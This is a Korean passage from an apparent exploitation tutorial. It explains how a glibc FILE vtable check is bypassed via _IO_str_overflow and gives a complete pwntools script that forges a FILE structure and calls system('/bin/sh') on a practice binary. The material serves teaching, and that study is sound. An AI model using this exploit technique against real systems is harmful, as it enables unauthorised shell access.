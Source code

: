위와 같이 `_IO_FINISH` 함수는 `_IO_jump + 16` 에 존재한다.

`vtable_bypass.py` 의 line 15에서 `fake_vtable` 을 `_IO_str_overflow - 16` 으로 설정한 이유는 `_IO_FINISH` 함수가 호출될 때 `vtable + 16` 을 참조하기 대문에 해당 주소가 `_IO_str_overflow` 함수를 가리키게 하기 위함이다. 이로 인해 `_IO_FINISH` 함수가 아닌 `_IO_str_overflow` 함수가 호출된다.

line 28과 line 31에서 `_IO_write_ptr` 과 `_IO_buf_end` 포인터를 `("/bin/sh" 문자열의 주소 - 100)/2` 로 조작했기 때문에 `new_size` 는 “/bin/sh” 문자열을 가리키데 된다.

그리고 `fp->_s.allocate_buffer` 함수 포인터를 `system` 함수 주소로 조작함으로써 `system("/bin/sh")` 가 실행되어 쉘을 획득할 수 있다.

- vtable_bypass.py
    
    ```python
    #vtable_bypass.py
    from pwn import *
    
    p = process("./vtable_bypass")
    
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    elf = ELF('./vtable_bypass')
    
    print(p.recvuntil("stdout: "))
    leak = int(p.recvuntil("\n").strip("\n"),16)
    
    libc_base = leak - libc.symbols['_IO_2_1_stdout_']
    io_file_jumps = libc_base + libc.symbols['_IO_file_jumps']
    io_str_overflow = io_file_jumps + 0xd8
    fake_vtable = io_str_overflow - 16
    binsh = libc_base + next(libc.search("/bin/sh"))
    system = libc_base + libc.symbols['system']
    fp = elf.symbols['fp']
    
    print(hex(libc_base))
    
    payload = p64(0x0) # flags
    payload += p64(0x0) # _IO_read_ptr
    payload += p64(0x0) # _IO_read_end
    payload += p64(0x0) # _IO_read_base
    payload += p64(0x0) # _IO_write_base
    payload += p64( ( (binsh - 100) / 2 )) # _IO_write_ptr
    payload += p64(0x0) # _IO_write_end
    payload += p64(0x0) # _IO_buf_base
    payload += p64( ( (binsh - 100) / 2 )) # _IO_buf_end
    payload += p64(0x0) # _IO_save_base
    payload += p64(0x0) # _IO_backup_base
    payload += p64(0x0) # _IO_save_end
    payload += p64(0x0) # _IO_marker
    payload += p64(0x0) # _IO_chain
    payload += p64(0x0) # _fileno
    payload += p64(0x0) # _old_offset
    
    payload += p64(0x0)
    payload += p64(fp + 0x80) # _lock 
    
    payload += p64(0x0)*9
    payload += p64(fake_vtable) # io_file_jump overwrite 
    payload += p64(system) # fp->_s._allocate_buffer RIP
    
    p.send(payload)
    
    p.interactive()
    ```